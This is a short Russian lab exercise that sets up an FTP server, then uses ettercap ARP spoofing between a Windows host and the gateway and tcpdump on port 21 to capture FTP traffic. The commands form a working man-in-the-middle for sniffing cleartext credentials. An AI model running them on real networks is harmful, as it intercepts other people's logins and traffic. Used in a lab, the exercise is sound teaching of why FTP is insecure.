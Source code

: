 Сервер FTP

Установка и запуск сервиса

```
root@server:~# apt install proftpd-basic

```

Утилита ettercap

Установка

```
lan# apt install ettercap-text-only
```

ARP спуфинг
```
win arp -a
```
```
lan# ettercap -T -M arp //192.168.110.<ip windows> // //192.168.110.1//
```
```
win arp -a
```
```
lan# tcpdump -n -s0 -A port 21
```

Произвести подключение к FTP и посмотреть трафик
